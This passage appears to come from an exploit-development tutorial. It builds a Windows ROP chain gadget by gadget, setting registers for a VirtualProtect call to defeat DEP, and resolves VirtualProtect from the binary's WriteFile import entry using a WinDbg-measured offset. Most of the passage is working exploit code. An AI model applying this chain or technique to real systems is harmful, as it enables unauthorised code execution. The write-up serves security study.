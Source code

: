 Now we setup edx. We use the same trick again to get the null byte free value of 0x40 into the register.

```
# EDX
# Blocked: EBX
0x4CBD7 + binary_base,  # pop eax; ret;
0xa2a7fdd6,             # put delta into eax (goal: 0x00000040 into edx)
0x76EFF + binary_base,  # add eax, 0x5D58026A       
0x1ABA5 + binary_base,  # xchg eax, edx; dec eax; add al, byte ptr [eax]; pop ecx; ret;
0x41414141,             # dummy
```

We continue by setting ecx. Since this needs a writable address we get one via WinDBG as described in the other post and just pop the value into the register.

```
# ECX
# Blocked: EBX, EDX
0x72D31 + binary_base,  # pop ecx; ret;
0xA635A + binary_base,  # &writable location
```

For edi, we set the address of a ropnop gadget directly via pop:

```
# EDI
# Blocked: EBX, EDX, ECX
0x32301 + binary_base,  # pop edi; ret;
0x774C7 + binary_base,  # ropnop
```

We set esi by popping the address of a jmp eax gadget. Normally this would hold the address of VirtualProtect but we will store VirtualProtect at the very end in eax – so placing jmp eax here will achieve the same.

```
# ESI
# Blocked EBX, EDX, ECX, EDI
0x24261 + binary_base,  # pop esi; ret;      
0x14AF9 + binary_base,  # jmp eax (just stored, not executed right away)
```

Finally we set up eax with the address of VirtualProtect. This is a bit tricky because we do not have a leak in kernel32 and the binary does not use VirtualProtect itself. We can however just as in the other post get the address of another kernel32 function from the IAT and then subtract the offset.

```
0:001> ?kernel32!WriteFile - kernel32!VirtualProtectStub
Evaluate expression: 12528 = 000030f0
```

```
# EAX
# Blocked EBX, EDX, ECX, EDI, ESI
0x704F4 + binary_base,  # pop eax; ret;
0x9015C + binary_base,  # IAT WriteFile
0x2BB8E + binary_base,  # mov eax, dword ptr [eax] / dereference IAT to get kernel32 ptr
0x113AB + binary_base,  # sub eax,1000 
0x113AB + binary_base,  # sub eax,1000 
0x113AB + binary_base,  # sub eax,1000 
0x4d1ed + binary_base,  # sub eax, 0x30 ; pop ebp ; ret;
0x41414141,
0x4d1ed + binary_base,  # sub eax, 0x30 ; pop ebp ; ret;
0x41414141,
0x4d1ed + binary_base,  # sub eax, 0x30 ; pop ebp ; ret;
0x41414141,
0x4d1ed + binary_base,  # sub eax, 0x30 ; pop ebp ; ret;
0x41414141,
```